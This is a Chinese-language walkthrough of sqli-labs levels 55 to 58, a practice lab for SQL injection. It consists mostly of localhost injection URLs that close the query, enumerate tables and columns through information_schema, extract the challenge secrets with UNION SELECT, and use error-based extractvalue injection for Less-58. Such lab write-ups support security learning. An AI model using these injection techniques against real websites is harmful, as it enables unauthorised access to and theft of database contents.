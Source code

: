 
![](https://upload-images.jianshu.io/upload_images/11356161-218bedef3fd45962.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

英语不好是真惨，看不懂上面的字还以为红色是注入失败了...

***

**Less-55**

闭合为($id)，猜闭合就会花很多次

`http://127.0.0.1/sqli/less-55/?id=0) union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='CHALLENGES'--+`

`http://127.0.0.1/sqli/less-55/?id=0) union select 1,group_concat(column_name),3 from information_schema.columns where table_name='zyx0hgi9h3'--+`

`http://127.0.0.1/sqli/less-55/?id=0) union select 1,group_concat(secret_72LK),3 from zyx0hgi9h3--+`

***

**Less-56**

闭合为('$id')

`http://127.0.0.1/sqli/less-56/?id=0') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='CHALLENGES'--+`

`http://127.0.0.1/sqli/less-56/?id=0') union select 1,group_concat(column_name),3 from information_schema.columns where table_name='go1rv0brdo'--+`

`http://127.0.0.1/sqli/less-56/?id=0') union select 1,group_concat(secret_LJOZ),3 from go1rv0brdo--+`

***

**Less-57**

双引号闭合

`http://127.0.0.1/sqli/less-57/?id=0" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='CHALLENGES'--+`

`http://127.0.0.1/sqli/less-57/?id=0" union select 1,group_concat(column_name),3 from information_schema.columns where table_name='hxf6ijm27v'--+`

`http://127.0.0.1/sqli/less-57/?id=0" union select 1,group_concat(secret_T011),3 from hxf6ijm27v--+`

***

**Less-58**

联合查询无回显，且限制次数只有五次，需要报错注入

`http://127.0.0.1/sqli/less-58/?id=1' and extractvalue(1,concat(0x25,(select table_name from information_schema.tables where table_schema='CHALLENGES'),0x25))--+`

`http://127.0.0.1/sqli/less-58/?id=1' and extractvalue(1,concat(0x25,(select column_name from information_schema.columns where table_name='pg5r7v7b4r' limit 2,1),0x25))--+`
